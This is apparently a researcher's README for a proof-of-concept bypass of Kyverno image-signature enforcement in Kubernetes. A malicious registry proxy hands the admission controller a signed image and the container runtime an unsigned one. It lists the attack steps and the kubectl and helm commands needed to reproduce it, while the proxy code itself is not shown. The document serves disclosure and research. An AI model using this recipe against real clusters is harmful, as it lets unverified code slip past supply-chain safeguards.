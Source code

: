 # Beating container signature validation in Kubernetes Admission Controllers

This repository contains all the scripts and artifacts which you need to re-run the proof of concept attack which I did on a Kubernetes cluster and Kyverno Admission Controller to prove that the current architecture is not secure against malicious proxies and registries.

If you already know everything and just want to re-run the attack, go to direcly to [reproducing the attack section](#reproducing-the-attack)

# Background

Supply-chain security is a deeply discussed topic in the Cloud Native community and all the projects started to align themselves with the requirements around this topic.

Software components should be validated in every step from development to production. The integrity of container images is key to ensuring that only verified code is running in a Kubernetes cluster.

In order to protect the Kubernetes cluster, multiple Admission Controller vendors started to offer policies that can enforce container image signatures. In other words, they claim that in order to protect your cluster, you can create a policy to only have validated images running inside the cluster.

# Image signature validation in admission controllers
Here is the way signature validation works in admission controllers. (see drawing and steps below)

1. A new workload is requested from the cluster through the Kubernetes API server
2. The API server will ask the Admission Controller to validate the new workload. The Admission Controller decides whether it can be admitted to the cluster
3. The Admission Controller is configured to validate the image signature and requests the image and the signature from the container registry
4. The container registry supplies the signature and the image itself. 
5. Depending on whether the image and the signature are correct, the Admission Controller allows the new workload into the cluster
6. API server asks Kubelet to start the new workload
7. Kubelet asks the container runtime to start a new container based on the image from the user request at step 1.
8. Container runtime downloads the image from the container registry
9. Container runtime starts the new container based on the image

![Image validation in admission controller](docs/dia1.png "Title")

# The conceptual problem in this architecture

There is a classic “TOCTOU” security problem here. The image signatures are checked by the Admission Controller. However, from a system perspective, it is far from the place where the image is used (in the node).

The verifier and the user are two different entities that are running in different services and at different times. 

Suppose the goal of the attacker is to inject an unsigned image into the cluster against the Admission Controller policies. In that case, she/he has multiple vectors to try to beat the policy enforcement. 

# The attack

The goal is to run an unsigned image inside a namespace in the cluster which should only be running signed images. 

The attacker controls the container registry (“malicious container registry”) and tricks the user to run a Pod with an image from this registry. Meanwhile, the cluster administrator has a policy in place to protect the cluster from malicious images by enforcing container signatures. From the cluster administrator's perspective, no unsigned images can be admitted into the cluster.

In the POC I had the following components in my hand:
* Kubernetes cluster with Kyverno (could be any other Admission Controller)
* Minikube + Kyverno (added my Root CA certificate to both, did this to make the POC simpler, however, could have been more sophisticated with a “Let’s Encrypt” cerficiate)
* Container signing key-pair
* Namespace called “signed” with an enforced policy on image signatures (with the public key of the keypair)
* One signed image with the private key in docker hub
* One unsigned image in docker hub
* Proxy server I wrote to be a Man-in-the-Middle between the cluster and docker hub (see the code at the end of this document)

The proxy server behaves in the following way: if it sees that the Admission Controller is asking for an unsigned image it returns a signed image. In any other cases, it just proxies the information between the cluster and docker hub.

![Image validation in admission controller](docs/dia2.png "Title")

The attack steps are as follows:
1. The user is convinced to run the unsigned image from the “Malicious proxy”
2. kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:unsigned --image-pull-policy='Always'
3. API server asks the admission controller for approval
4. The Admission Controller asks for the image and signature from the “unsigned image”
5. The malicious proxy returns the “signed image” to the Admission Controller (effectively cheating)
6. The admission Controller verifies the signature of the signed image and gives approval to the API server
7. Kubelet is asked to start the POD
8. Kubelet asks the container runtime to start the container based on the unsigned image
9. Container runtime pulls the unsigned container through the malicious proxy

**The container is started based on the unsigned image**

# Reproducing the attack

{% note %}

**Note:** Since image registry API assumes HTTPS (for good!) the attacker must obtain a valid TLS Certificate for the proxy/server. In this POC I decided to create my own Root CA and embed it both Kubernetes and Kyverno to bypass this problem. This is not an ideal choice for a real life attacker who could solve this in different ways (for example: buying a domain and obtaining Let's Encrypt signed certificate for that domain). 

Note that the way I solved this here is not limiting the problem, but helps this demontration to be more easily to demostrate.

{% endnote %}

## Setting up the cluster

### Minikube 
Creating a minikube instance with an added root CA certificate (see note above).
```shell{:copy}
cp certs/benCA.pem $HOME/.minikube/certs/. # adding the own root CA to minikube (see comments above)
minikube start --driver=docker --embed-certs
```

### Installing Kyverno
Note I am using my own Kyverno image which was built using `kyverno-image/Dockerfile`. The only difference between the official Kyverno image and `hisu/kyverno` is that my build contains the extra root CA certificate.
 (see note above)
```shell{:copy}
helm install kyverno kyverno/kyverno -n kyverno --create-namespace --set replicaCount=1 --set image.repository=hisu/kyverno
helm install kyverno-policies kyverno/kyverno-policies -n kyverno
```

### Creating a protected namespace
Here I am creating the namspace `signed` and I am adding a policy which should only allow images which were signed by `cosign.key` to be admitted in it.
```shell{:copy}
kubectl create ns signed
kubectl apply -f signed-policy.yaml
```

### Container images in Dockerhub

I have created two images:

1. `hisu/cosign-test:signed`: Image based on nginx:latest and signed by `cosign.key`
2. `hisu/cosign-test:unsigned`: Image built with the Dockerfile at `nginx-alternative-image/Dockerfile` with a single file change 


### Proving the policy works

I cannot run the unsigned image, this command should fail:
```shell{:copy}
kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy='Always'
```


And this should succed
```shell{:copy}
kubectl -n signed run signed --image=hisu/cosign-tests:signed --image-pull-policy='Always'
```


## Showing attack

Let's bring up the malicious proxy:

```shell{:copy}
python proxy-server.py
```

**Note**: the cluster should see the host at the IP address 10.0.2.15 . If this is not the case, please adopt the next steps to the different IP by creating a different certificate for the the proxy with a SAN containing the new IP.

If you run:
```shell{:copy}
kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:unsigned --image-pull-policy='Always'
```
It should pass admission despite it is not signed. In the background the malicious proxy gave the addmission controller a signed image and gave the container runtime the unsigned one.

See here
![Image validation in admission controller](docs/screenshot1.png "Title")


